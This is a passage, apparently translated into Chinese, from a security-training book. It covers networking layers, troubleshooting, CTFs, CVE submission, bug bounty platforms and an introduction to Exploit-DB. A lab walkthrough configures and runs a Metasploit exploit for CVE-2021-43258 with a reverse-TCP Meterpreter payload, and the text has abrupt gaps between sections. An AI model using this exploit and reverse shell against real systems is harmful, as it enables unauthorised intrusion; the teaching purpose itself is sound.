**图5.2** 以太网指示灯显示电缆已连接并正在接收数据。

如图5.2所示，这些灯被亲切地称为“闪烁灯”，帮助我们在物理上指示电缆两端都已插入，并且正在传输某种比特。然而，闪烁灯的存在并不表示已经建立了正确的网络流和连接。相反，这意味着第1层运行正常。

请记住，每一层彼此独立。但在排查问题时，我们必须尽可能缩小问题范围。闪烁灯的存在让我们知道问题在更高层，需要继续排查。我们应该继续调查更高层以帮助确定问题所在。

### 第2层：数据链路层

第2层是一个有趣的层，它直接与第1层的物理方面接口，并确定帧应在本地网络上采取什么动作。这一层处理MAC地址，MAC地址用于找到帧应到达的目的端口。数据链路层的目的是在两个直接连接的主机之间提供节点到节点的传输。

从技术上讲，这一层分为两个子层：媒体访问控制（MAC）和逻辑链路控制（LLC）。MAC用于直接与硬件媒介和物理层接口，而LLC用于帮助复用、错误检查以及与OSI模型中更高层的通信。³ 这两个子层共同帮助数据链路层有效运作，将比特转换为帧、数据包，最终转换为数据。

第2层使用计算机网卡（NIC）上的媒体访问控制（MAC）地址来帮助确定哪个系统应该接收一组帧。每个MAC地址都是一个48位的全球唯一地址。地址的前24位称为组织唯一标识符（OUI），分配给生产网卡的组织。OUI可用于确定网络另一端可能存在什么类型的设备——例如，OUI `00-00-AA` 表示该设备很可能由施乐制造，可能是网络上的打印机。MAC地址不是设计为可更改的，但可以通过管理员权限轻松修改。


**图5.3** 使用Wireshark基金会的OUI查找工具进行OUI查找。

Wireshark基金会在 `https://www.wireshark.org/tools/oui-lookup.html` 提供了一个出色的OUI查找工具。网上还有其他几个类似网站也可用于确定网络上发现的OUI。

### 第3层：网络层

第三层是网络层，用于跨网络发送数据包。该层使用互联网协议（IP），并在此处分配和路由IP地址。第3层在不同网络之间发送数据包，无论是在内部网络还是跨互联网。

与第2层相反，第3层的IP地址可以轻松更改，并且设计为可修改的。这是因为有诸如DHCP之类的协议，它们在网络上分发IP地址以及其他网络配置信息，以便有效运行。

路由是在两个独立网络之间传输数据包的行为。这些不同网络之间必须有路由器，以帮助确定在连接的网络中将数据包发送到哪里。当交换机确定帧的目的地时，它会识别出需要将其发送到路由器以路由到另一个网络。第2层无法在网络之间路由数据包，但如今许多现代交换机可以在第3层运行，根据需要路由数据包。

### 第4层：传输层

第四层用于帮助管理数据传输及其如何传递给适用的应用程序。该层是TCP和UDP运行的地方，它们是最常见的两种传输层协议。这两种协议用于帮助在网络上传送信息，然后再传递给应用程序。

TCP用于帮助确保数据传输的可靠性。这确保我们收到准确的数据和字节，以便它们可以按顺序重新组装。如果数据丢失或损坏，TCP将自动帮助确保重新发送并接收正确的数据。

TCP通过握手过程建立双向连接。该握手是两个节点之间的SYN、SYN-ACK、ACK，以确保在发送数据之前正确建立双向连接。此过程不仅有助于确保数据传输的可靠性，而且由于设置和管理，还会导致较慢的连接过程。


**图5.4** 在发送数据之前建立TCP握手。检索自 `https://commons.wikimedia.org/wiki/File:Tcp-handshake.png`

UDP用于速度，不确保数据的可靠传输。如果UDP数据包丢失，则没有恢复机制来检索丢失的数据（在传输层，某些更高层的应用程序会跟踪并请求缺失的数据。这不是UDP的功能）。

在UDP级别，发送数据前不建立握手操作。某些使用UDP进行传输的协议可能会使用握手；但是，这是在应用程序级别实现的，与UDP协议无关。例如，WireGuard使用握手来确保正确


**图5.7** 基本故障排除流程。

## 了解要求，定义问题

初始故障排除技能通常被简化为帮助台和入门级系统管理员工作。但请记住，如果我们在排除故障，是为了解决问题并达到特定目标。在我们开始解决问题之前，我们必须定义解决问题的要求是什么，以及定义阻止达到该要求的问题。

例如，假设我们在IT帮助台处理故障工单（这是许多黑客初显身手的常见地方，包括我！）。有用户打电话说无法访问他们的电子邮件。

用户无法访问电子邮件的原因数不胜数，但在我们沿着这条路走下去之前，我们需要了解我们的目标是什么。基于这个电话，我们需要确保让该用户访问他们的电子邮件，以便他们能够阅读。为了定义问题，我们要在陷入技术猜测和想法之前保持高层面。基于电话，我们的问题是用户无法访问电子邮件。

为了有效解决此工单，我们的目标是让用户重新获得对其电子邮件的访问权限，而当前问题是他们无法访问其电子邮件。我们在执行故障排除过程时，必须始终牢记这两点。

## 缩小问题范围

一旦我们理解了目标，我们需要减少问题可能存在的可能原因。减少调查范围将显著简化我们在响应事件时浪费的精力和时间。这可以通过从我们能快速证明的最庞大、最广泛的事情开始来实现。以用户无法访问电子邮件为例，我们可以先确定一些不同的项目，以减少需要进一步调查的技术领域。

首先也是最重要的，整个世界的互联网都瘫痪了吗？这很可能不太可能，但并非不可能。使用你的分析师工作站，你可以尝试访问诸如Google或Office 365之类的网站，以确定互联网（希望如此）在全球范围内仍然正常。同时，这证明了我们所在的站点具有互联网连接。

一旦得到证实，我们可以尝试看看我们是否也能访问自己的电子邮件，假设我们与提交故障工单的客户使用相同的邮件服务器。这有助于缩小是整个组织使用的邮件服务器存在问题，还是客户账户本身存在问题。打开我们的Outlook显示我们已连接到邮件服务器，并正在积极接收来自用户的电子邮件。现在这证明了邮件服务器可能按预期运行，我们应该继续缩小可能性。

对于其他类型的问题，我们始终可以使用诸如Wireshark之类的工具来收集数据包供我们审查。数据包从不说谎！通过收集活动的数据包捕获（PCAP），我们可以审查活动如何展开以及问题可能出在哪里。在明文HTTP攻击的情况下，我们可以审查特定的HTTP请求，以查看特定漏洞可能在哪里失败。

对于HTTPS，我们始终可以利用Burp Suite来拦截和审查线路上发生的活动。请参阅[第3章](#)：Web应用程序攻击与防御，以了解如何使用Burp Suite拦截HTTPS请求的清晰描述。

## 研究

一旦我们找到了问题，我们需要研究如何解决它。由于我们对问题所在有了扎实的理解，我们需要查找问题可能如何解决。提供特定的软件和硬件版本将有助于缩小问题范围，并有助于找到更多信息。

可能是通信问题、错误的路径或连接问题。我们的故障排除流程能够帮助我们精确缩小问题所在，从而确定应采取哪些修复措施。

在本场景中，我们将运行 `multi/http/churchinfo_upload_exec` 模块，该模块利用 `CVE-2021-43258` 获取远程代码执行权限。选择该模块并配置 `RHOSTS` 设置后，如图 [图 5.8](#) 所示，我们可以尝试运行该漏洞利用模块。

`msf6 exploit(multi/http/churchinfo_upload_exec) > options`

Module options (`exploit/multi/http/churchinfo_upload_exec`):

| Name | Current Setting | Required | Description |
|------|-----------------|----------|-------------|
| `EMAIL_MESG` | Hello there! | yes | Email message in webapp |
| `EMAIL_SUBJ` | Read this now! | yes | Email subject in webapp |
| `PASSWORD` | churchinfoadmin | yes | Password to login with |
| `Proxies` | | no | A proxy chain of format type:host:port[,type:host:port][...] |
| `RHOSTS` | 192.168.40.216 | yes | The target host(s), see `https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html` |
| `RPORT` | 80 | yes | The target port (TCP) |
| `SSL` | false | no | Negotiate SSL/TLS for outgoing connections |
| `TARGETURI` | `/churchinfo/` | yes | The location of the ChurchInfo app |
| `USERNAME` | admin | yes | Username for ChurchInfo application |
| `VHOST` | | no | HTTP server virtual host |

Payload options (`php/meterpreter/reverse_tcp`):

| Name | Current Setting | Required | Description |
|------|-----------------|----------|-------------|
| `LHOST` | 192.168.40.97 | yes | The listen address (an interface may be specified) |
| `LPORT` | 4444 | yes | The listen port |

**图 5.8** 使用该模块并针对目标主机配置 `RHOSTS` 设置。注意，我们将 `LHOST` 指定为同一网络中的本机。

运行该漏洞利用模块，我们可以在 [图 5.9](#) 中看到有一个错误阻止了成功利用。这表明该模块没有正常工作，并且有某种问题阻碍了正确利用。

```
msf6 exploit(multi/http/churchinfo_upload_exec) > exploit

[*] Started reverse TCP handler on 192.168.40.97:4444

[*] Running automatic check ('set AutoCheck false' to disable)

[-] Exploit aborted due to failure: unknown: Cannot reliably check exploitability. Target did not respond to a request to its login page! 'set ForceExploit true' to override check result.

[*] Exploit completed, but no session was created.
```

**图 5.9** 哎呀！看起来我们在使用这个模块时遇到了麻烦。让我们进行故障排除吧！

此时，我们有几个选择。我们可以再次尝试运行漏洞利用模块，看看这次是否有效，这种情况偶尔会发生。另一个选择是沮丧并放弃。既然它没有按照我们希望的方式工作，那就干脆放弃，继续前进。

相反，让我们弄清楚到底发生了什么，并进行故障排除！我们花点时间读一下错误信息——很明显，“目标未对其登录页面的请求作出响应”。这是什么意思呢？很可能存在以下情况之一：

- 1. 登录页面不存在。
- 2. 我们访问的登录页面不正确。
- 3. Web 服务未在运行。

现在我们如何验证这些推测并确定如何解决问题呢？当然是通过手动分析！我们收到的错误信息表明登录页面没有响应。首先，让我们看看是否能浏览该网站。在这种情况下，它应该托管在 `http://192.168.40.216`。


**图 5.10** 无法连接到服务。这表明网页未启动。

在尝试手动浏览该 Web 应用程序后，我们似乎根本无法与网站建立连接。这表明 Web 服务要么没有运行，要么有东西在阻止我们访问。让我们跳到目标虚拟机，检查发生了什么。

当运行命令 `systemctl status apache2` 时，我们得到的信息表明 Apache 服务未运行。这很可能是网页无响应的原因——让我们使用 `systemctl start apache2` 启动该服务。


**图 5.11** 调查目标系统上的 Apache 服务。该服务处于非活动状态，这很可能就是我们失败的原因。

一旦服务启用，我们可以在 `systemctl` 窗口输出中看到它被列为 **active（活动）**。参见 [图 5.12](#)。


**图 5.12** Apache 服务已在目标上启动，现在应该可以访问了。

既然 Apache 服务已启动，让我们再给漏洞利用模块一次机会。


**图 5.13** 再次运行漏洞利用模块，现在我们收到了一个不同的错误。我们可以看到目标存在漏洞。

现在我们在 [图 5.13](#) 中看到一个关于意外回复的错误。仔细阅读后，它要求检查凭据是否正确。不过好消息是，我们现在遇到了一个不同的错误！这意味着我们开始取得一些进展。既然错误与凭据有关，让我们确保为应用程序配置了正确的凭据。


**图 5.14** 好消息！我们的漏洞利用模块现在正常运行，并且我们获得了一个活动的 Meterpreter 会话！

HTB 是信息安全社区的绝佳资源，它为黑客提供了一个磨练技能的演练场。HTB 上的大多数机器都来自社区作者，他们根据自身专业经验设计和构建这些机器，以帮助他人学习他们是如何攻击类似类型的机器并对其执行操作的。

作者为 HTB 创建了一台名为 **Previse** 的机器，该机器利用了作者在专业经验中发现的网站中的重定向后执行（XAR）漏洞。此外，这台机器还容易受到远程代码执行（RCE）攻击，原因在于 `PHP exec()` 函数对参数的解释方式。攻击者从网站数据库中窃取密码，破解后可直接通过 SSH 进入机器。HTB 强制用户使用动手实践技术来完成这些操作，而不是仅仅阅读相关文章——这是区分优秀黑客与顶尖黑客的关键因素。

HTB 机器通常都有 writeups（破解报告），这些是记录机器如何被攻破和拥有的书面文档。对于仍留在 HTB 实验室并标记为“active（活跃）”的系统，不应提供 writeups；一旦机器被移至“retired（退役）”区，其 writeups 才会发布。花时间阅读社区撰写的 writeups，可以让我们深入了解现场其他人是如何以不同视角看待这些机器的。作者从阅读他人的 writeups 中学到了无数新技术和工具。如果你在一台机器上卡住了，强烈建议去阅读可用的 writeup！


**图 5.18** Previse 的机器卡片，这是一台由作者创建的 HTB 机器。

## PICO CTF

PICO CTF 全年举办，提供跨多个领域的入门级到高级挑战。这个 CTF 已经存在多年，并在其 picoGym 中提供可随时参与的挑战。可通过 [https://play.picoctf.org](https://play.picoctf.org) 访问该比赛。

用户可以获得许多 writeups，以了解如何看待特定挑战并学习如何解决它们。Writeups 是学习如何攻击系统和发现漏洞的关键组成部分。


**图 5.19** PicoCTF 计分板和各种可用挑战的截图。

每年三月左右还会举办一次 PicoCTF 竞赛。这是一场经典竞赛，与 PicoGym 一直开放的性质不同，它需要限时完成挑战。与他人竞争是另一种挑战自我、提升水平的乐趣方式。如果你从未参加过，强烈推荐一试！

## 国家网络联盟（NCL）

NCL 是一年两次的竞赛，供高校网络运动员代表学校参加一系列 CTF。这项竞赛专门限于在校大学生。NCL 专注于向新生介绍网络领域、提供实践经验，并让雇主在招聘候选人时获得一定程度的熟悉度和经验。如果你是符合资格参加 NCL 的大学生，强烈建议你开始学习和参与。NCL 内的社区和学习体验无与伦比，驱使我们作为网络分析师不断进步。

## 美国网络运动会（USCG）

USCG 是一个运营美国网络队的组织，该队伍参加国际网络竞赛。队伍由 30 名运动员组成，他们在整个赛季中训练、旅行并参加网络竞赛。竞赛混合了 Jeopardy 风格的问题和攻防场景。

开源内容管理系统（CMS）项目往往存在错误配置，因为它们是由他人免费开发的。我们可以搜索一些不太知名、可能未经太多安全测试的 CMS 软件。既然我们开始走上从经验中学习的道路，开源项目就是我们评估的绝佳资源。我们的发现可用于直接向开发者发送代码更新，从而帮助提高整个项目的安全性。

## 识别项目

要寻找项目，我们可以先按特定活动类型或群体搜索开源 CMS。通过缩小项目范围，我们更有可能找到非常特定且不太可能由独立安全专业人员审查过的 CMS。下面是一些搜索特定软件 CMS 的想法：

- 计费

- 会计

- 教会管理

- 保龄球管理

- 电影

- 餐厅菜单

- 票务系统

- 日历预订系统

这些只是在线可用项目的冰山一角。GitHub 上有数十万个不同的公共软件项目，只需一个 `git clone` 请求即可进行分析。发挥你的想象力，搜索一个我们可以下载并尝试查看的特定项目。

查找项目的一种方法是在 GitHub 中搜索。本例中，我在 GitHub 的主题中搜索涉及某种票务系统的项目。通过搜索 `ticketing-system` 找到了 320 个带有该标签的项目。


**图 5.22** 在 GitHub 中查找带有 `ticketing-system` 标签的项目。注意顶部项目的 star 数量很高；这表明可能更难发现漏洞。

图 5.22 中的顶部项目拥有远超过 1,000 个 star，这表明它们很受欢迎，且被分析过安全漏洞的可能性要高得多。虽然它们仍然很可能存在漏洞，但我们希望专注于寻找更容易定位的漏洞，这样我们获得 CVE 的可能性更大。为了提高机会，我们需要向下滚动，寻找 star 数较少的项目。

然而，请记住，MITRE 公司只会为在实际中积极使用的项目接受 CVE。为未用于实际运营能力的个人项目创建 CVE 是极其愚蠢的。因此，我们需要找到一个我们可以证明在互联网上被使用、并且对使用该应用程序的用户构成真实威胁的项目。

在这种情况下，我向下滚动浏览了这些项目，并确定了一个名为 `movie_ticket_booking_system_php` 的项目，它有 10 个 star，表明它可能在互联网上更频繁地被使用。


**图 5.27** 在软件的实时版本上运行 SQLMap，显示出 SQL 注入漏洞。

在运行各种工具后，我们可以证明该漏洞利用对软件是有效的，并且它容易受到此类攻击。在大多数情况下，找到漏洞并证明其影响可能需要更长时间，但在这些方面投入更多时间将有助于你在分析过程中更快地发现它们。

## 提交 CVE

要提交我们发现的任一漏洞，我们需要访问 [cve.org](https://cve.org) 上的 CVE 网站。在该页面内，有一个报告 CVE 的按钮。在查看信息后，如果我们报告的漏洞不受 CVE 编号授权机构（CNA）的管辖，我们将点击 MITRE CNA-LR，将其作为最后诉诸的 CNA 来申请 CVE。这表明我们报告的弱点不属于现有的 CNA，必须通过 MITRE 系统处理。

CVE 编号授权机构是一个合作伙伴组织，代表 MITRE 负责跟踪和维护其负责的产品的 CVE。例如，Adobe 和 Microsoft 是两家大型软件制造商，它们注册为其产品的 CNA。要确定某个产品是否由 CNA 覆盖，我们可以使用 MITRE 网站上的搜索功能。如果我们发现产品供应商未被列出，我们将选择“最后诉诸的 CNA”。


**图 5.28** 通过 MITRE 作为最后诉诸的 CNA 申请 CVE。


**图 5.29** MITRE 网站上的 CVE 提交流程表单。

填写 CVE 请求表单需要非常具体的信息，列出漏洞及其影响。我们必须指定受影响的软件版本，以及任何可用的已修复版本。受影响的组件必须清晰标记，以描述漏洞在系统中的位置，并让其他人了解风险所在。

在定义建议的 CVE 描述时，我们必须使用某些关键的措辞细节。如果没有使用这些描述，我们的 CVE 被接受的可能性就会降低。幸运的是，CVE 团队在 CVE 提交表单本身中提供了关于正确措辞的资源链接。


**图 5.30** MITRE 网站上建议的 CVE 描述。

访问此链接 [http://cveproject.github.io/docs/content/key-details-phrasing.pdf](http://cveproject.github.io/docs/content/key-details-phrasing.pdf) 会显示一份 2016 年的 PowerPoint 演示文稿。该演示文稿解释了为什么使用描述来区分不同的 CVE 条目，并在提交过程中提供报告细节。具体来说，描述的格式应类似于以下格式：

- [漏洞类型] 在 [组件] 中，[供应商] [产品] [版本] 允许 [攻击者] 通过 [攻击途径] 造成 [影响]。

- [组件] 在 [供应商] [产品] [版本] 中 [根本原因]，它允许 [攻击者] 通过 [攻击途径] 造成 [影响]。

写出正确的描述可能很困难，我们需要确保提供足够的信息，以便 MITRE 就是否发布 CVE 做出明智的决定。确保该描述反映出我们为发现和分析 CVE 所花费的时间和精力。还要记住，MITRE 在必要时可以对已提交的表单进行调整，以帮助完善措辞。

如果我们有幸让 CVE 被接受，我们将通过电子邮件收到通知。然而，最初 CVE 会以“保留”状态列出，表示 CVE 编号已发布但仍处于受控信息状态。保留状态是为了在补丁发布或公开分析公布之前保护使用该软件/产品的其他人。请记住，既然我们发现了这个漏洞，我们就有责任确保负责任地披露并协助修复。

对于开源项目，我们总可以在 GitHub、SourceForge 或代码托管的地方打开一个安全问题。同时，我们可以在一个 git 分支中修改代码并提交拉取请求，表明我们已经着手修复此漏洞。大多数开源维护者都是免费开发的志愿者，因此推送一些你的代码来帮助修复你发现的风险将受到欢迎。创建分支、提交更改和提交拉取请求的步骤超出了本书的范围，但在网上可以很容易找到。

一旦问题通过补丁或其他类型的缓解措施得到解决，并且有公开的披露信息（例如被接受的拉取请求），我们就可以通知 MITRE 请求完全公开该 CVE。这将通过我们提交 CVE 的同一表单完成，只是我们要选择“通知 CVE 关于发布”。这会要求提供资源链接和受影响的 CVE 编号，如果需要，还可以提供任何额外的描述更新。

一旦 MITRE CVE 团队收到并处理这些信息，我们的第一个 CVE 就会发布在世上！别忘了庆祝，并继续传递知识，以帮助构建更安全的互联网和互联的在线世界。

## 漏洞赏金

发现错误和漏洞也能获得丰厚回报！在过去十年中，漏洞赏金系统变得极为流行，并为黑客创造了一个有利的环境，让他们为愿意付费的公司寻找漏洞。这也确保黑客不会将这些漏洞用于个人利益，而是将其提交到赏金资源中，作为一种合法的报告和收入形式。

然而，漏洞赏金*很难*。由于有现金奖励摆在桌面上，来自其他黑客的竞争非常激烈。当资产在项目中发布后，成百上千志同道合的黑客会蜂拥而至，试图找到漏洞。这些黑客中的许多人拥有成熟工具和方法，能够快速识别更有可能受到攻击的位置。第一个报告漏洞的人通常就是获得赏金的人，因此每当新目标发布时，都会出现争夺漏洞的疯狂竞赛。

开始寻找赏金时不要气馁，找到一个漏洞是一次非常有益的体验。就像其他任何事情一样，你做得越多，它就会变得越容易。

公司要么公开这些授权位置，要么在严格控制的选择黑客群体中发布，以供攻击；赏金就是通过这些授权位置获得的。这些黑客在特定范围内获得许可，允许他们攻击并尝试发现组织内部的弱点。当漏洞被识别后，黑客必须证明其对组织的影响以及如何利用它来伤害组织——影响越大，赏金就越高。

对于大多数项目和平台，发现高影响漏洞（如 SQL 注入或远程代码执行）每个发现最高可支付 10,000 美元。Google 和 Apple 关键产品中的其他漏洞每个最高可支付一百万美元——但请记住，该漏洞必须证明对这些产品有重大影响。

然而，别忘了，你并不是唯一在寻找这些漏洞的黑客——从漏洞发现中直接获利的机会让漏洞赏金成为一项竞争激烈的业务。通常，第一个发现并报告漏洞的人才能拿到赏金，这几乎总是导致一场争分夺秒的竞赛。

## 范围

在搜索漏洞时保持正确的范围极其重要。归根结底，我们仍然是白帽黑客，我们所做的一切都符合道德规范。我们的道德义务之一就是确保我们保持在项目测试要求的范围内。每个项目都会有一组非常具体的域名、URL，甚至如果是测试移动应用的话，还包括应用程序。

例如，下面的截图包含了 Shopify 组织允许测试的范围。我们可以清楚地看到，几个子域名提供赏金，以及赏金最高可达多少。还要注意有一个通配符子域名，表示任何匹配为该子域名的内容都可以作为问题报告。


**图 5.31** Shopify 在 HackerOne 上的漏洞赏金项目，显示了要评估的资产范围。

在开始寻找赏金之前，注意范围信息至关重要。如果我们不慎开始测试超出范围的项目，我们发现的任何结果都无法获得赏金。更严重的是，我们可能导致运营中断或其他形式的干扰，阻止合法业务正常进行。

某些项目会限制可以使用的攻击类型，甚至公布已知漏洞，这些漏洞不会获得赏金。注意这些位置及其信息，这样我们在开始分析时就不会浪费时间。密切关注范围的定义方式，并仔细阅读项目详情！

## 已知问题

以下漏洞类型已经被报告并进行过分诊，不会修复。这些问题将作为**不适用**关闭：

- **XSS - 店铺前台** - 任何商店员工能够在其自己店铺的店面区域插入 javascript 的问题（包括 `*.shopifypreview.com`）。

- **XSS - iframe** - 任何与商店前台区域在管理的 `<iframe>` 元素中显示相关的问题，例如主题编辑器。

- **XSS - 富文本编辑器** - 与在 Shopify 后台的博客和页面部分中的旧版富文本编辑器中执行 JavaScript 相关的问题。

- **XSS - Shopify CDN** - Shopify 内容分发网络（`static.shopify.com` 和 `cdn.shopify.com`）提供給商家使用，我们鼓励商家托管任何他们想要的内容。我们将拒绝任何提交，如果报告的问题是用户或商店员工能够向我们的 CDN 上传任意文件或在 CDN 域上下文中执行 javascript。

- **任意文件上传 - Shopify CDN** - Shopify 内容分发网络（`static.shopify.com` 和 `cdn.shopify.com`）提供給商家使用，我们鼓励商家托管任何他们想要的内容。我们将拒绝任何提交，其中报告的问题是用户或商店员工能够向我们的 CDN 上传任意文件。

- **CSRF 修改购物车**

- **CSRF 登录或登出** - 任何登录/登出 CSRF 均不符合资格，除非与另一个漏洞关联以证明影响。

- **账户识别 cookie 的安全处理不当**

**图 5.32** Shopify 为其漏洞赏金项目公布的已知问题，报告这些问题不会获得任何报酬。

大多数项目还会提供一个可下载的配置文件，其中所有范围信息都被放入一个与 Burp Suite 兼容的文件中。这些文件可以直接加载到 Burp Suite 中，所有目标信息都已正确选择供我们使用。这节省了时间，减少了人为错误，同时我们准备系统来分析网站以获得赏金。

## 平台

在线有许多不同的平台可以寻找和报告漏洞赏金。本节列出的只是众多平台中的一部分示例。此外，也可以直接向受影响的组织报告漏洞——但是，利用现有的赏金项目可以为黑客提供保护，并有助于协商赏金。

### HackerOne

HackerOne 运营着一个广泛的平台，向互联网上的任何人开放，可以创建账户并提交漏洞。没有任何先决条件或认证要求才能获得账户。HackerOne 运营着大量“托管”项目，这意味着 HackerOne 团队帮助协调披露过程。

HackerOne 还运行了一个入门 CTF，帮助新黑客学习如何发现和利用基本的 Web 漏洞。这个 CTF 被称为 Hacker101 CTF，可在 [https://ctf.hacker101.com/](https://ctf.hacker101.com/) 上访问，并附带 Hacker101 培训，可在 [https://www.hacker101.com/](https://www.hacker101.com/) 上访问。有几个精心制作的 Hacker101 视频可用，描述了如何在他们平台及其他地方处理并报告漏洞赏金。

HackerOne 向互联网上的任何黑客开放，任何人都可以创建账户。强烈建议在该平台上建立一个账户，并开始了解漏洞赏金领域。

### BugCrowd

BugCrowd 在许多方面与 HackerOne 类似。他们运营着一个公开的漏洞赏金系统，互联网上的任何人都可以使用。BugCrowd 也运营着类似的培训平台，帮助新黑客学习漏洞搜寻技术，称为 BugCrowd University，可在 [https://www.bugcrowd.com/resources/levelup/introduction-to-bugcrowd-university/](https://www.bugcrowd.com/resources/levelup/introduction-to-bugcrowd-university/) 上访问。

要访问 BugCrowd，只需访问网站 [https://www.bugcrowd.com/](https://www.bugcrowd.com/) 并注册账户。BugCrowd 运营公开的漏洞赏金项目，互联网上的任何人都可以访问以报告漏洞。

### Synack

Synack 与 HackerOne 和 BugCrowd 不同，它是一个仅限邀请的漏洞赏金平台。Synack Red Team (SRT) 是一组经过测试和经验丰富的黑客，他们可以访问那些较少人关注的目标——这提供了比其他人更早发现漏洞的更高机会。


要加入 SRT，黑客可以通过在线申请请求加入。这需要个人填写一份表格，包含其安全背景、认证、经验年限以及任何其他漏洞赏金经验。收到申请后，Synack 团队将联系该个人，让他们完成一项动手黑客测试。这项实践评估用于确定申请人是否具备被邀请加入该计划所需的技术技能。


**图 5.33** Synack Red Team 在线申请页面。

Synack 在付款处理方式上也不同。对于 HackerOne 和 BugCrowd，付款直到漏洞报告被认为关闭后才支付。这个过程可能从几天到几个月不等——Synack 在其团队完成漏洞分诊后立即支付。

对于黑客来说，Synack 的平台可以是一个在较少竞争的情况下寻找漏洞的好方法。然而，这需要一定的知识基础才能被邀请加入该平台——完成像 HackTheBox 这样的 CTF 将*显著*帮助新黑客通过考试。

### OpenBugBounty

OpenBugBounty 是一个网站，为没有设置漏洞赏金项目的公司进行负责任披露。这为负责任地披露漏洞提供了机会，同时给黑客提供了一个报告漏洞的地方。许多小型公司的网站或没有建立漏洞赏金计划，甚至没有专职安全分析员的组织，依赖 OpenBugBounty 上发布的通知和信息。

要向 OpenBugBounty 报告漏洞，请点击网站首页的**报告漏洞**按钮。这样就可以为 OpenBugBounty 网站中存在的漏洞提交报告。


**图 5.34** [OpenBugBounty.org](https://OpenBugBounty.org)网页截图。

关于 OpenBugBounty 的另一个有趣视角是，它可以用来收集关于某个网站的情报。所有报告，无论是否已解决，都会在原始提交后的 90 天内公开展示。这意味着，一个曾经被报告存在 XSS 且从未修复的网站，可以通过 OpenBugBounty 的历史报告快速定位。该漏洞可能仍然存在，或者也可能出现在网站的其他区域。

## 防御者视角

防御者可以应用这些技术来帮助识别组织内部的其他漏洞。清晰理解漏洞的表现形式及其可能出现的区域，对于降低组织风险至关重要。

故障排除步骤在判断计算机或服务器上的问题是否需要升级处理方面起着关键作用。详细的故障排除工作有助于判断资产是否受到某种利用或攻击的影响，而不仅仅是配置错误。务必确保有证据支持你的理论和处理方式。漏洞赏金计划对组织方也同样有效，建立赏金计划可以激励黑客查找漏洞并报告以获取现金。这反而能提升被测试产品的安全性，防止其被用来攻击环境。然而，一些组织对允许黑客攻击其网站的计划持犹豫态度——请记住，黑帽黑客无论如何都会这么做。

## 总结

发现漏洞归根结底取决于对计算机基础知识、直觉和练习的深入理解。如果没有计算机基本功能和网络的基础知识，发现和评估漏洞将极其困难。通常，这些概念仅靠阅读书籍很难掌握，需要动手实践的学习经验。

开始漏洞 hunting 有多种方式，每种方式都有其优缺点。CTF 是一种在引导下学习的好方法，配合 write-up 可以在迷路时提供方向。当对 CTF 足够熟悉后，转向带有漏洞赏金计划的真实目标，将进一步巩固已有技能。

除此之外，我们必须了解如何将这些漏洞在攻击链中组合利用以产生实际影响。在大多数情况下，单个漏洞本身只能访问有限的信息，但当多个漏洞组合在一起时，一个小问题就可能演变成完全沦陷。

## 注释

- 1. https://www.mynavyhr.navy.mil/Portals/55/Messages/NAVADMIN/NAV2018/NAV18095.txt?ver=OC-H-ZNx2mGNpfNjuJg6jg%3D%3D

- 2. https://explodingtopics.com/blog/iot-stats

- 3. https://www.tutorialspoint.com/what-are-logical-link-control-llc-and-medium-access-control-mac

- 4. https://attack.mitre.org/techniques/T1110/003/

- 5. https://github.com/m4lwhere/pySpray

# 6 漏洞利用与反弹Shell

## 引言

理解漏洞利用和反弹 Shell 对于对目标产生有效影响至关重要。识别漏洞只是游戏的一半，我们需要能够证明这些漏洞可以被利用并对组织造成影响。证明影响的最佳方式是构建一个漏洞利用程序，它要么让我们在系统内获得额外访问权限，要么允许我们收集可用于进一步攻击的敏感信息。

Shell 是交互式终端，也是我们在被攻破主机上执行命令的方式。在黑客社区中，获得 Shell 通常也被称为“立足点”，因为初始访问会被进一步利用，以获得用户或 root 级别的访问权限。本章涵盖识别获取 Shell 的方法以及如何检测它们。我们将探索查找漏洞利用、使用 Metasploit、利用 Meterpreter，以及使用 `msfvenom` 生成漏洞利用代码。

## 为什么漏洞利用很重要

漏洞利用不仅仅是简单地针对目标使用漏洞，我们需要确保发起的漏洞利用会产生影响。在识别了漏洞及其在目标系统上的工作原理之后，我们应该非常清楚系统会容易受到哪些类型的攻击以及如何被利用。通过漏洞利用，我们的任务是在其中放置 payload，以在系统或网络中获得进一步的访问权限。

从防御角度来看，我们必须清楚地了解攻击者可以对我们使用的各种能力。红队和紫队是测试现有防御是否按预期运行的有效方式。当高知名度和高影响力的漏洞被披露时，例如 Log4J 漏洞，组织需要确保其拥有现成的专业知识，不仅要修复漏洞，还要测试修复措施实施中是否存在漏洞。了解攻击者如何通过详细的漏洞利用来收集针对环境的信息，这一点至关重要。

## Exploit-DB

Exploit-DB 是由 Offensive Security 运营的漏洞利用数据库，可通过 [https://www.exploit-db.com/](https://www.exploit-db.com/) 访问。该网站是一个符合 CVE 规范的漏洞利用存档，收录了已知漏洞的漏洞利用代码以及可用于攻击这些漏洞的公开漏洞利用代码。¹ 为易受攻击的系统托管已知的漏洞利用代码，为黑客和防御者提供了资源，以确定易受攻击的系统是否可被公开的漏洞利用代码利用。另请注意，Exploit-DB 同时也托管了在 Web 应用攻击章节中介绍的 GHDB（Google 黑客数据库）。

浏览 Exploit-DB 就像从你的 Web 浏览器访问该页面一样简单。有些工作场所和大学网络可能会阻止对该网站的访问，这也不无道理。如果用户能识别系统中的漏洞，那么 Exploit-DB 上可能就有可用的公开漏洞利用代码来进一步攻击系统。打开网页时，每个漏洞利用都有几个不同的属性。日期表示漏洞利用上传到 Exploit-DB 的时间，下载（D）用于下载漏洞利用代码，应用程序（A）用于获取易受攻击应用程序本身的副本（用于测试漏洞利用），已验证（V）表示 Exploit-DB 团队已验证该漏洞利用是有效且一致的。


**图 6.1** Exploit-DB 截图，显示了针对各种系统的可用漏洞利用代码，注意每个漏洞利用的不同属性。

提供的漏洞利用代码可能使用多种不同的编程语言编写，并涵盖广泛的受影响软件和硬件资产。大多数漏洞利用代码是用 Python 编写的，然而也有许多漏洞利用代码是使用其他脚本语言编写的，或是用于编译可执行文件的源代码。其他漏洞利用则只是如何利用系统中漏洞的说明，并不提供一套可直接运行的代码。这些说明可能简单到只是用于利用系统的 HTTP 请求，但大多数都不是可以立即运行漏洞利用的“一键自动攻击”。

大多数这类漏洞利用代码需要某种形式的手动修改或命令行输入，才能用于我们想要攻击的目标系统；这就是为什么创建漏洞利用代码的本地副本进行修改至关重要。这也是为什么能够审查代码并理解正在发生的活动同样至关重要，这样我们才能有效地使用漏洞利用代码，并在必要时进行调试。

